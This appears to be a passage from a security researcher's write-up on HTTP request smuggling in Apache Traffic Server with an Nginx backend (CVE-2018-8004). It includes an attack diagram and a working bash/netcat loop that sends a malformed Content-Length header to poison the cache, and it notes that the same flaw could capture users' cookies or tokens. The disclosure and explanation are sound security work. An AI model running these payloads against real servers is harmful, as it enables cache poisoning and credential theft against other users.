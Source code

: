 * Line **05** is invalid (' :'). But for ATS it is valid.
* Lines **07/08/09/10** are just binary body data for ATS transmitted to backend.

For Nginx:

* Line **05** is ignored.
* Line **07** is a new request (and first response is returned).
* Line **10** has no "\r\n". so Nginx is still waiting for the end of this query, on the keep-alive connection opened by ATS ...

### Attack schema

    [ATS Cache poisoning - space before header separator + backend ignoring bad headers]
    Innocent        Attacker           ATS            Nginx
        |               |               |               |
        |               |--A(1A+1/2B)-->|               | * Issue 1 & 2 *
        |               |               |--A(1A+1/2B)-->| * Issue 3 *
        |               |               |<-A(404)-------|
        |               |               |            [1/2B]
        |               |<-A(404)-------|            [1/2B]
        |               |--C----------->|            [1/2B]
        |               |               |--C----------->| * ending B *
        |               |            [*CP*]<--B(200)----|
        |               |<--B(200)------|               |
        |--C--------------------------->|               |
        |<--B(200)--------------------[HIT]             |

* 1A + 1/2B means request A + an incomplete query B
* A(X) : means X query is hidden in body of query A
* CP : Cache poisoning
* Issue 1 : ATS transmit 'header[SPACE]: Value', a bad HTTP header.
* Issue 2 : ATS interpret this bad header as valid (so 1/2B still hidden in body)
* Issue 3 : Nginx encounter the bad header but ignore the header instead of
            sending an error 400. So 1/2B is discovered as a new query (no Content-length)
            request B contains an incomplete header (no crlf)
* ending B: the 1st line of query C ends the incomplete header of query B.
            all others headers are added to the query. C disappears and mix C
            HTTP credentials with all previous B headers (cookie/bearer token/Host, etc.)

Instead of cache poisoning you could also play with the incomplete `1/B` query and wait for the Innocent query to finish this request with HTTP credentials of this user (cookies, HTTP Auth, JWT tokens, etc.). That would be another attack vector. Here we will *simply* demonstrate cache poisoning.

Run this attack:

{% highlight bash %}
for i in {1..9} ;do
printf 'GET /does-not-exists.html?cache='$i' HTTP/1.1\r\n'\
'Host: dummy-host7.example.com\r\n'\
'Cache-Control: max-age=200\r\n'\
'X-info: evil 1.5 query, bad CL header\r\n'\
'Content-Length :117\r\n'\
'\r\n'\
'GET /index.html?INJECTED='$i' HTTP/1.1\r\n'\
'Host: dummy-host7.example.com\r\n'\
'X-info: evil poisoning query\r\n'\
'Dummy-unterminated:'\
|nc -q 1 127.0.0.1 8007
done

  [FRENCH]: https://www.makina-corpus.com/blog/metier/2018/securite-contrebande-de-http-apache-traffic-server
  [SHODAN]: https://www.shodan.io/search?query=Server%3A+ATS
  [ATS]: http://trafficserver.apache.org/
  [CVE]: https://nvd.nist.gov/vuln/detail/CVE-2018-8004
  [CVE_2016_8743]: https://nvd.nist.gov/vuln/detail/CVE-2016-8743
  [PULL_REQUEST_3192]: https://github.com/apache/trafficserver/pull/3192
  [PULL_REQUEST_3201]: https://github.com/apache/trafficserver/pull/3201
  [PULL_REQUEST_3231]: https://github.com/apache/trafficserver/pull/3231
  [PULL_REQUEST_3251]: https://github.com/apache/trafficserver/pull/3251
  [RFC7230_3_3_2]: https://tools.ietf.org/html/rfc7230#section-3.3.2
  [RFC7230_3_3_3]: https://tools.ietf.org/html/rfc7230#section-3.3.3
  [RFC7230_3_2_4]: https://tools.ietf.org/html/rfc7230#section-3.2.4
  [HAPROXY]: https://www.haproxy.org/
  [NGINX_ISSUE]: https://trac.nginx.org/nginx/ticket/1014
  [ANNOUNCE]: https://lists.apache.org/thread.html/7df882eb09029a4460768a61f88a30c9c30c9dc88e9bcc6e19ba24d5@%3Cusers.trafficserver.apache.org%3E
  [PREVIOUS_DETAILS]: https://regilero.github.io/security/english/2015/10/04/http_smuggling_in_2015_part_one/#toc4
  [ALBINOWAX]: https://twitter.com/albinowax
  [DESYNC]: https://portswigger.net/blog/http-desync-attacks-request-smuggling-reborn
  [BURP]: https://portswigger.net/burp/communitydownload